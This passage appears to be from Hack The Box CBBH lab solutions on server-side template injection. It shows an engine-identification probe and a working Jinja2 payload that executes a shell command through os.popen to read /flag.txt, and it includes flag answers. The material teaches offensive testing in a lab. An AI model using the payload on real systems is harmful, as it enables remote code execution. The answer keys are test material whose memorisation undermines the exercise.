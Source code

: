 ![[HTB Solutions/CBBH/z. images/c8f44d9217ab03f5cbac0e086801477c_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/c926c217ce5ba14e63a1c370d8f06e2b_MD5.jpg]]

Now, to confirm the use of a templating engine, students need to test all the various SSTI payloads, until the templating engine can be identified:

![[HTB Solutions/CBBH/z. images/522e54900066f5e3f05682436fc137dc_MD5.jpg]]

Students must eventually follow the graphic until finally injecting the payload `{{7*'7'}}`. The result will enable students to deduce the template engine used by the web application. In Jinja, the result will be `7777777`, while in Twig, the result will be `49`:

Code: shell

```shell
{{7*'7'}}
```

![[HTB Solutions/CBBH/z. images/5684560fe8c37ea90fa577d6dbe49fa9_MD5.jpg]]

Answer: `Twig`

# Exploiting SSTI - Jinja2

## Question 1

### "Exploit the SSTI vulnerability to obtain RCE and read the flag."

Students need to begin by browsing to `http://STMIP:SMTPO`, where they will be met with a `Simple Test Server` web application containing an input box:

![[HTB Solutions/CBBH/z. images/3f98781c3a5bfc65c21e5ce211e84a60_MD5.jpg]]

After submitting the appropriate RCE payload (shown in the section's reading), students may use it to read the contents of `/flag.txt`:

Code: shell

```shell
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

![[HTB Solutions/CBBH/z. images/de5d14d31783a343fd562fb7fdc4a64b_MD5.jpg]]

Answer: `HTB{295649e25b4d852185ba34907ec80643}`

# Exploiting SSTI - Twig

## Question 1
